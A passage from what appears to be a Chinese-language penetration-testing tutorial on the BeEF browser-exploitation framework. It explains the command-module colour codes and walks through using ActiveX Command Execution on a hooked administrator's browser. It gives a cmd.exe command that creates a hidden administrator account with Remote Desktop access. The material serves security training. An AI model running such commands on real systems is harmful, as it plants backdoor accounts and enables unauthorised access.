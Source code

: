 脚本执行后，受害者浏览器将出现一个警报对话框，如下截图所示：

![如何做...](img/image_08_024.jpg)

1.  是的，它正在运行。现在在命令部分有各种模块可用。它们由彩色的球分开，绿色，橙色，红色和灰色。绿色表示命令模块针对目标起作用，并且对用户应该是不可见的；橙色表示命令模块针对目标起作用，但可能对用户可见；灰色表示命令模块尚未针对该目标进行验证；红色表示命令模块不适用于该目标。

1.  考虑到被钩住的浏览器是由管理员操作的，我们将使用钩来创建具有远程桌面功能的用户。在我们的环境中，我们有 Internet Explorer 在启用 ActiveX 的 Windows XP 上运行。要执行此操作，请选择机器的钩，然后转到**Commands** | **Module Tree** | **Exploits** | **Local Host** | **ActiveX Command Execution**。

在**ActiveX Command Execution**中，设置命令如下：

```
      cmd.exe /c "net user beefed beef@123 /add &  net localgroup        Administrators beefed /add & net localgroup "Remote desktop       users" beefed /add & pause"

```

设置相同的选项如下截图所示：

![如何做...](img/image_08_025.jpg)
